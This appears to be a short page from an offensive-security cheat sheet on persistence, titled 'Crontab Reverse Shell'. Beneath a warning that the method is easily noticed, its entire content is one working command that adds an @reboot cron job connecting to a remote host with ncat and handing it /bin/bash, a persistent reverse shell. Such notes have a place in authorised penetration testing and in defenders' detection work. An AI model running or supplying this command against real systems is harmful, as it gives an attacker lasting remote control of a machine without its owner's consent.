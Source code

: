 # ⚠ Crontab Reverse Shell (Not OPSEC)

{% hint style="danger" %}
cron jobs are obviously visible in crontab, so this method is not recommended.
{% endhint %}

```
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

###

\
